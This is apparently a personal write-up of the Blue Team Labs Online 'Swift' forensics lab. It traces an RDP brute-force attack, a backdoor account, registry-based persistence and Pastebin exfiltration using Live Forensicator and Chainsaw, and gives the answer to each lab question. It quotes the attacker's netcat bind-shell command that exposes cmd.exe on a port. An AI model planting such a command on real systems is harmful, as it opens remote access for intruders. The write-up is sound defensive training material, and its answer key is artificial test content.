

# [Blue Team Labs Online - Swift](https://blueteamlabs.online/home/investigation/swift-17217744e9) 
Created: 15/05/2024 11:10
Last Updated: 02/06/2024 17:43
* * *
<div align=center>


</div>

>Use Live Forensicator, a PowerShell framework, to collect key artifacts for analysis and triage after a Windows system has been compromised. Investigate the retrieved data and find clues of what happened.

>**Tags**: Live Forensicator, PowerShell, Notepad++, Chainsaw, T1110, T1136, T1086, T1547.001, T1567.002,
* * *

**Scenario**
**The login credentials are shown on the lab client.**

Use Live Forensicator, a PowerShell framework, to collect key artifacts for analysis and triage after a Windows system has been compromised. Investigate the retrieved data and find clues of what happened.

**When using Live Forensicator and Chainsaw, make sure to run them using an administrative-level command prompt or PowerShell session.**

**Reading Material:**
https://github.com/Johnng007/Live-Forensicator
https://github.com/WithSecureLabs/chainsaw
https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc771865(v=ws.11)
* * *
## Investigation Submission
> Run Live Forensicator using the "-EVTX EVTX" flag. Open the created output .HTML files in Chrome. According to Live Forensicator, which user accounts were locked out? (Alphabetical order)

Live Forensicator is a tool written in PowerShell to gathering artifacts of infected system and find anomaly or suspicious activity that happened on that system


We can start by using `.\Forensicator.ps1 -EVTX EVTX` to collect event log 

Then Go to Live Forensicator folder and you will find a folder named after hostname of this system, Go to that folder and Open `index.html` 

Web browser should be opened now and next we will click "Event Log Analysis" and show "User LockOut Activities"

As you can see, there are 4 users
```
Administrator, Brittany.Song, John.Raymond, ServiceAccount
```

>Review the Lockout Policy on the machine. What is the number of failed logons before an account is locked, and what is the lockout duration?

You can learn more about Account Lockout Policy from Microsoft Learn [here](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-10/security/threat-protection/security-policy-settings/account-lockout-policy)

We will need to open Group Policy Editor then go to this specific path

Search for Group Policy then open it

You can see that Account lockout threshold is set to 10 invalid logon attempts and It will be unlocked after 10 minutes
```
10, 10
```

>Which accounts were successfully accessed during the bruteforce attack?


Go back to our Web Browser (Still on Event Log Analysis) then show "RDP Login Activities" to review which account was successfully logged on from remote user. then you will see 3 accounts that was logged on from the same IP address but the answer are Claire and ServiceAccount
```
Claire.Daniels, ServiceAccount
```

>What is the IP address that conducted the bruteforce attack and accessed these accounts, and what country is it associated with?


Grab this IP and go to Ip-location.com

It associates with UK
```
82.2.66.222, United Kingdom
```

>What account is created by the attacker, what is the Time associated with this activity according to Live Forensicator?


Still on "Event Log Analysis", this time click to show "User Creation Activity"

Now we can figure it out why only 2 users were successfully bruteforced since this account was created later
```
ServiceAccountBackup, 8/26/2022 3:13:02 PM
```

>Use Chainsaw with the -r flag and point the tool at the Live Forensics EVT output folder to further investigate the RDP bruteforce activity. How many failed logins are detected across all affected accounts? 

Chainsaw is a powerful tool when it comes to analyze event log so lets use `.\chainsaw.exe hunt -r .\rules\ C:\Users\BTLOTest\Desktop\Live-Forensicator-main\EC2AMAZ-UUEMPAU\EVT` to let it process (I used `.\rules` because I didn't one to roll just 1 specific rule)

After its done processing, scroll down to "Login Attacks".
Now we will sum all of these failed login attempts for an answer (13+44+10+10=77)
```
77
```

>What local accounts were NOT targeted in this attack, according to Chainsaw's output for Login Attacks? (Only include accounts that are likely used by humans! and no, don't include BTLO!)


Back to Web Browser, we will go to "Users & Accounts" to compared both result and you can see that only 2 users are not listed on "Login Attacks" result
```
Claire Daniels, George Darville
```

>Using Live Forensicator, identify the script that the attacker attempted to use for persistence. Submit the filepath and filename (Hint: Think about the account that is actively being used by the attacker to identify the right file!)


Go to "System Processes", there are sevaral persistence techniques here but I clicked to show "Startup Programs" first then found this suspicious script file that added by compromised account
```
C:\Windows\Temp\script.ps1
```

>What are the contents of the script file?


Go to Temp folder to read the content of this file (or you can just get content from PowerShell directly)

```
cmd.exe -c nc64.exe -lvp 4456 -e c:\Windows\System32\cmd.exe
```

>We can't always trust the output from our tools. Manually investigate the machine's Run, RunOnce, RunServiceOnce registry keys. List the keynames where the persistence script is being executed 


For reference, we will check these 3 keys
Using 
```
Get-Item HKLM:\Software\Microsoft\Windows\CurrentVersion\Run
Get-Item HKLM:\Software\Microsoft\Windows\CurrentVersion\RunOnce
Get-Item HKLM:\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce
```

There are 2 keys that store this malicious script which is different from Live Forensicator result
```
Run, RunserviceOnce
```

>Run Live Forensicator again using the flag to get browser history. Look at the BROWSING_HISTORY directory first, focusing on history from the compromised account used by the attacker. Three websites are a concern for data exfiltration, what are the URLs? (Alphabetical order based on subdomain or domain)


Lets use `.\Forensicator.ps1 -BROWSER BROWSER` to gather browser artifacts and process them

Inside hostname folder under Live Forensicator folder, there is a new folder named "BROWSING_HISTORY" which will have log files of all user's browser history

Open history file from ServiceAccount since we know this is a compromised account
```
https://gds.google.com, https://pastebin.com, https://wetransfer.com
```

>Look at Live Forensicator's BrowserHistory.html output and search through the results for Pastebin. What is the URL that contains exfiltrated company data? 


Back from BROWSING_HISTORY, go up then open "BrowserHistory.html"

Search for pastebin and you can see that we didn't need to go to that url ourselves (for now), Title has enough info for us

There it is
```
https://pastebin.com/MbnNWkMT
```

>Visit this page directly (or if it is removed, use web.archive.org). How many rows of data have been exfiltrated by the attacker?


```
50
```

>Revisiting the malicious script created by the attacker, according to Live Forensicator, what is the creation date for the .ps1 file? 


After searching for "script.ps1", we got 4 records of it and the oldest one is this record which is the correct answer of this question
```
8/26/2022 15:34:27 PM
```

>What is the Last logon value for the attacker manually accessing the compromised account? (Remember, certain persistence mechanisms might log in as the user, so think about the timestamp that makes sense within the timeline)


Go to Security Event log, filter for EventID 4624 (Successfully Logon) and narrow down to date and time that close to previous question which is this one
```
8/26/2022 15:40:22 PM
```

>Based on the information in the data dump, investigate the files of each user on the system to locate the document. What is the filename, and which account was it stored on?


After searching through every user's Desktop/Download/Document folder I finally found it in `C:\Users\George.Darvill\Desktop\HR Documents\Employee Details - CONFIDENTIAL`
```
Employee Master List.xlsx, George.Darvill
```


* * *